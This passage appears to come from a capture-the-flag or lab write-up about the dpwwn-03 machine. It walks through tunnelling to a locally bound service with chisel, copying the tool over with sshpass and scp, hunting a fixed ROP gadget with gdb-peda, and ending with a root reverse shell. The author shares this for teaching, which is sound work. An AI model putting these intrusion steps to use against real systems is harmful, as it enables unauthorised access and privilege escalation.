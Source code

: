 And now to attack the server, I have a constraint, and it is that the service runs locally in the service, then I decided to create a reverse proxy, when I download the `chisel` tools, And I choose the one compatible with the server system:
```shell
$ wget -O chisel.gz "https://github.com/jpillora/chisel/releases/
> download/v1.8.1/chisel_1.8.1_linux_386.gz"
```
And I send it to the target server with the `scp` command:
```shell
$ sshpass -p "john" scp chisel.gz john@192.168.56.110:/home/john/
```
And I extract it from my local machine, and in the target machine:
```shell
$ gzip -d chisel.gz
```
And I give it execution permissions, and on the local machine, I run the `chisel server` command:
```shell
$ chisel server -p 8090 --reverse
```
And In the target machine, I run `chisel client` command:
```shell
$ john@dpwwn-03:$ ./chisel client 192.168.56.101:8090 \
> R:9631:127.0.0.1:3210
```
But it fails, and I identify that I can not use the same address `0x56xxx01e`, and I identify that I can use the `GDB` command on the server. when I run the binary on the target server, and identify the `PID`, in this case, it is `1859`, and I run the `gdb` command:
```shell
$ john@dpwwn-03:~$ gdb -q --pid 1859
```
And I run the `dumprop` command:
```shell
$ gdb-peda$ dumprop
...SNIPPED...
0x40100a: ret
0x4011a7: nop; ret
0x4011a1: leave; ret
0x40101e: pop ebx; ret
...SNIPPED...
```
When I check those addresses several times on the server, then I notice that the address `0x40101e` is fixed, and thats means, I do not need the bruteforce address step, and I tried with that addresss, and it works, and I get the reverse shell with the root user:

![evidence](./static/10-root-shell.png)

